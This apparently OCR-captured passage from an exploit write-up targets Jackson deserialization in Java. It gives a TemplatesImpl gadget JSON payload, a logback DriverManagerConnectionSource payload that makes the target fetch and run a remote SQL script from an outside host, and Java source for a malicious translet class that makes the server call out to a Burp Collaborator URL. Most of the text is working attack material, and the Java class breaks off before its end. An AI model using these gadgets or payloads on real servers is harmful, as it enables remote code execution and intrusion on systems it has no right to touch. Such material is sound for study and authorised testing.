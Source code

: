 To determine if this really is Jackson that you are seeing, one technique is (if detailed error messages are available) to provide invalid input and look for references to either of these:

- `com.fasterxml.jackson.databind`
- `org.codehaus.jackson.map`


---


## Building An Exploit

```java
// Helpfully, the project gave us a starting point to build an effective exploit in one of their unit tests:

{'id': 124,
 'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
  {
    'transletBytecodes' : [ 'AAIAZQ==' ],
    'transletName' : 'a.b',
    'outputProperties' : { }
  }]
}
// This code leverages a well-known ‘gadget’ to create an object that will accept a compile Java object (via transletBytecodes) 
// and execute it as soon as outputProperties is accessed. 
// This creates a very simple, straightforward technique to exploit this vulnerability.


["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.50:9000/inject.sql'"}]

```


---


## Building The Payload

to prove that we have execution, and the route I went is to have the server issue a GET request to Burp Collaborator. This can be done easily with the following sample code:

```java
import java.io.*;
import java.net.*;

public class Exploit extends com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet {
  public Exploit() throws Exception {
    StringBuilder result = new StringBuilder();
    URL url = new URL("http://[your-url].burpcollaborator.net");
    HttpURLConnection conn = (HttpURLConnection) url.openConnection();
    conn.setRequestMethod("GET");
    BufferedReader rd = new BufferedReader(new InputStreamReader(conn.getInputStream()));
    String line;
    while ((line = rd.readLine()) != null) {
      result.append(line);
    }
    rd.close();
  }

  @Override
  public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {
  }
```